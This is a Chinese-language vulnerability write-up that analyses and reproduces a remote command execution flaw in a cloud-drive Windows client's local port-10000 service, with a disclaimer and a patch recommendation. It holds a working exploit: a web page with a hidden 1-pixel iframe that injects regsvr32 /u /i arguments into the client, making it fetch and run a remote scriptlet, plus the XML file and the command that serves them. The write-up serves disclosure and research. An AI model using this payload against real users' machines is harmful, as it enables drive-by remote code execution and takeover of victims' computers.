








某网盘RCE漏洞分析复现
免责声明
文章中涉及的内容可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。
前言
根据情报得知最近网传某盘出现了RCE漏洞，从CERT获取到了漏洞的大概信息后遂进行复现改漏洞。
漏洞原理
某网盘Windows客户端安装后，后台程序将监听本地10000端口，处理HTTP（HTTPS）请求。其中的HTTP请求OpenSafeBox存在命令注入漏洞，攻击者可以控制该请求的URL参数，
注入指定命令，可实现远程命令执行。
影响范围
版本小于等于7.59.5.104（最新版，截止时间2025/09/3）
漏洞分析
本次分析的版本是：7.59.5.104，安装路径为默认路径。
1 | https://2f944e-1864173475.antpcdn.com:19001/b/pkg-ant.baidu.com/issue/netdisk/yunguanjia/BaiduNetdisk_7.59.5.104.exe |
网盘Windows客户端安装后，后台程序YunDetectService.exe将监听本地10000端口，且该后台程序为开机自启动。（遇到过有时候监听到10001的情况）

10000端口处理HTTP或者HTTPS请求（版本7.50.0.130之前处理HTTP，往后版本则是HTTPS），以method = xxxx的形式传递参数，实现不同的功能。其中的method 主要包括：GetVersion，GetPcCode，DownloadShareItems，DownloadSelfOwnItems，OpenSafeBox等。
下面是传入GetVersion方法查看到了版本。



特殊情况有时候监听到了10001

出现问题的方法是OpenSafeBox，当传入的方法是OpenSafeBox时，同时传入的uk值作为BaiduNetdisk.exe的命令行参数userkey的值。以字符串拼接的方式传递到该程序中，后续将创建该程序运行。查看下面代码发现没有对该参数进行安全检测和过滤，因此此处存在命令行参数注入。
1 | sub_48ABD0(-2147467259); |
现在能够向BaiduNetdisk.exe命令行注入任意参数后，还需分析如何利用被注入的参数实现命令执行。

当BaiduNetdisk.exe程序使用install regdll实现的功能时，就会创建系统程序regsvr32.exe注册YunShellExt.dll文件。其文件目录也是通过命令行参数进行拼接组合，然后检查拼接后的YunShellExt.dll或者YunShellExt64.dll文件是否存在，如果存在才会执行后续的注册功能。
1 | if ( v2 == 64) |
注册过程是调用系统regsvr32.exe程序实现。regsvr32.exe的参数同样也是拼接字符串的方式进行组合，没有对其进行安全检测和过滤，文件路径可控，可进行命令行参数注入。
1 | _report_rangecheckfailure(); |
把DLL路径劫持为系统自带的scrobj.dll路径之后再通过使用双引号截断命令，即可对regsvr32.exe进行命令行参数注入。如此依赖便可以引入/i和/u参数。此时再采用类似于软连接钓鱼的方式进行命令执行，下载远程的xml文件并且执行即可达到执行命令上线C2的效果。
运行时候的参数大致为：
1 | BaiduNetdisk.exe -opensafebox -userkey a -install regdll "C:\\windows\\system32\\scrobj.dll\" /u /i:http://vps/poc.xml "..\\..\\..\\..\\..\\..\\..\\..\\Users\【用户名】\\AppData\\Roaming\\baidu\\BaiduNetdisk" |
漏洞复现
用python3起一个web服务，同时放入html和xml文件到web目录中。
POC.html
1 | <html><head><meta charset="UTF-8"></head> <h1>Hello，我是用户正常浏览的页面！！</h1><iframe width="1px" height="1px" referrerpolicy="no-referrer" src='https://localhost:10000/?method=OpenSafeBox&uk=a%20-install%20regdll%20%22C:\\windows\\system32\\scrobj.dll\%22%20/u%20/i:http://192.168.1.8/poc.xml%20..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Users\\Administrator\\AppData\\Roaming\\baidu\\BaiduNetdisk%22'></iframe></html> |
POC.xml
1 | <?xml version="1.0"?><scriptlet><registration progid="poc" classid="{10001111-0000-0000-0000-0000FEEDACDC}"> <script language="JScript"></script></registration></scriptlet> |
启动
1 | python3 -m http.server 80 |

模拟用户正常访问网站：http://192.168.1.8/poc.html；iframe将会请求本地的10000进行注入参数之后，拉取恶意的xml文件加载执行，成功执行了命令：cmd.exe /c calc.exe，弹起了计算器。

修复建议
建议用户立即升级至官方发布的最新版本（>= 7.60.5.102），以获取针对该漏洞的安全修复。